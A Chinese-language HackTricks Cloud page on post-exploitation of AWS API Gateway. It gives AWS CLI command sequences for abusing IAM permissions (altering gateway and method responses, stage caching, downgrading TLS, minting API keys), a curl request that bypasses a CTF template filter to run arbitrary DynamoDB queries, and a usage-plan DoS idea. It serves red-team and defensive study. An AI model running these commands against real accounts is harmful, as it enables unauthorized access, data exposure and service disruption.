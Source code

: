 # AWS - API Gateway后渗透

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## API Gateway

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 访问未公开的API

您可以在[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)创建一个端点，服务为`com.amazonaws.us-east-1.execute-api`，将端点暴露在您可以访问的网络中（可能通过EC2机器），并分配一个允许所有连接的安全组。\
然后，您可以从EC2机器访问端点，从而调用之前未公开的网关API。

### 绕过请求主体透传

这项技术在[**这篇CTF解密文章**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp)中发现。

如[**AWS文档**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html)中所示，在`PassthroughBehavior`部分，默认情况下，值为**`WHEN_NO_MATCH`**，在检查请求的**Content-Type**标头时，将不对请求进行任何转换地将请求传递到后端。

因此，在CTF中，API Gateway具有一个集成模板，当使用`Content-Type: application/json`发送请求时，**阻止了标志在响应中被外泄**：
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

然而，使用 **`Content-type: text/json`** 发送请求将阻止该过滤器。&#x20;

最后，由于 API 网关仅允许 `Get` 和 `Options`，因此可以通过发送带有查询内容的 POST 请求并使用标头 `X-HTTP-Method-Override: GET` 来发送任意 dynamoDB 查询，而不受任何限制：

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### 使用计划 DoS

在**枚举**部分，您可以看到如何**获取密钥的使用计划**。如果您拥有该密钥，并且它**每月限制**为X次使用，您可以**只需使用它并导致 DoS**。

**API 密钥**只需包含在名为**`x-api-key`**的**HTTP 头**中。

### `apigateway:UpdateGatewayResponse`，`apigateway:CreateDeployment`

拥有`apigateway:UpdateGatewayResponse`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有的网关响应，包括自定义标头或响应模板，从而泄露敏感信息或执行恶意脚本**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：泄露敏感信息，执行恶意脚本，或未经授权访问 API 资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

拥有 `apigateway:UpdateStage` 和 `apigateway:CreateDeployment` 权限的攻击者可以**修改现有的 API Gateway 阶段，将流量重定向到不同的阶段或更改缓存设置以未经授权地访问缓存数据**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：未经授权访问缓存数据，干扰或拦截 API 流量。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

拥有 `apigateway:PutMethodResponse` 和 `apigateway:CreateDeployment` 权限的攻击者可以**修改现有 API Gateway REST API 方法的方法响应，包括自定义标头或响应模板，以泄露敏感信息或执行恶意脚本**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：泄露敏感信息，执行恶意脚本，或未经授权访问 API 资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

拥有 `apigateway:UpdateRestApi` 和 `apigateway:CreateDeployment` 权限的攻击者可以**修改 API Gateway REST API 设置以禁用日志记录或更改最低 TLS 版本，从而可能削弱 API 的安全性**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：削弱 API 的安全性，可能导致未经授权访问或暴露敏感信息。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

拥有 `apigateway:CreateApiKey`、`apigateway:UpdateApiKey`、`apigateway:CreateUsagePlan` 和 `apigateway:CreateUsagePlanKey` 权限的攻击者可以**创建新的 API 密钥，将其与使用计划关联，然后使用这些密钥未经授权访问 API**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在影响**：未经授权访问 API 资源，绕过安全控制。

{% hint style="info" %}
需要测试
{% endhint %}

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
